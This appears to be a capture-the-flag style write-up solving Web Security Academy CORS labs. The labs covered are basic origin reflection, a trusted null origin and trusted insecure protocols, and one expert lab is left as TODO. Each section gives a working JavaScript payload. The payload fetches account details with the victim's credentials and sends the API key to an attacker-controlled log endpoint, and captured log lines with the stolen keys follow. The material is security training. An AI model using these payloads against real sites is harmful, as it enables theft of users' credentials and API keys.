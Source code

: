 # Cross-origin resource sharing (CORS)

## CORS vulnerability with basic origin reflection
```html
<script>
    fetch('https://acc51f361e18076480b18f7400cb00e1.web-security-academy.net/accountDetails', {
        credentials: 'include',
    })
        .then(response => response.json())
        .then(data => {
            location = '/log?key=' + data.apikey;
        });

</script>
```
Then read the API key from log:
```
192.168.1.12    2019-11-26 17:43:29 +0000 "GET /log?key=C6jmr5ha0rCuLJLJwF2Advyo5Ww6jjEi HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36 PSAcademy/888822"
```


## CORS vulnerability with trusted null origin
```html
<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src='data:text/html,
<script>
    fetch("https://ac261fc01eaf53ac8000046f00a70074.web-security-academy.net/accountDetails", {
        credentials: "include",
    })
        .then(response => response.json())
        .then(data => {
            location = "https://ac351fc01ef95355807a045a01ec00f8.web-security-academy.net/log?key=" + data.apikey;
        });
</script>'></iframe>
```
Then read the API key from log:
```
192.168.1.12    2019-11-26 21:43:49 +0000 "GET //log?key=FLgt9zxG64IV2d0DKYDm3pI2kRGtyY6g HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36 PSAcademy/885332"
```

## CORS vulnerability with trusted insecure protocols
There is an XSS vulnerability in the subdomain:
```
http://stock.acf01f3b1eda3d94803f4c7100240098.web-security-academy.net/?productId=%3Cscript%3Ealert(1)%3C/script%3E&storeId=1
```

```html
<script>
   document.location="http://stock.acf01f3b1eda3d94803f4c7100240098.web-security-academy.net/?productId=4%3Cscript%3Efetch%28%27https%3A%2F%2Facf01f3b1eda3d94803f4c7100240098.web-security-academy.net%2FaccountDetails%27%2C+%7B+credentials%3A+%27include%27%2C+%7D%29+.then%28response+%3D%3E+response.json%28%29%29+.then%28data+%3D%3E+%7B+location+%3D+%27https%3A%2F%2Fac691fd21e1d3d63801b4ca901e30063.web-security-academy.net%2Flog%3Fkey%3D%27+%2B+data.apikey%3B+%7D%29%3B%3C%2Fscript%3E%0D%0A&storeId=1"
</script>
```
Then read the API key from log:
```
192.168.1.12    2019-11-26 22:22:25 +0000 "GET /log?key=eAzFrQXushulGePxvr5qRUUlReJxxyQD HTTP/1.1" 200 "User-Agent: Mozilla/5.0 (X11; Linux x86_64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/75.0.3770.142 Safari/537.36 PSAcademy/329148"
```

## CORS vulnerability with internal network pivot attack
TODO: Expert
